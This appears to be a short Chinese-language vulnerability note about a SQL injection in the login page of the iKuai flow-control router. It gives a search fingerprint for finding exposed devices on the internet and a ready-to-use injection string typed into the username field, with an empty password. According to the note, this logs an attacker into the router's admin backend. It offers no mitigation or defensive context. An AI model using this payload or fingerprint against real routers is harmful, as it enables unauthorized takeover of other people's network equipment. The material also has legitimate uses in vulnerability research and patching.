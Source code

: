 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

```
iKuai 流控路由
```

## 网络测绘

```
title="登录爱快流控路由"
```

## 漏洞复现

登录页面如下

![](images/202202140931704.png)

使用万能密码登录后台

```plain
user: "or""=""or""="
pass: 空
```

![](images/202202140931830.png)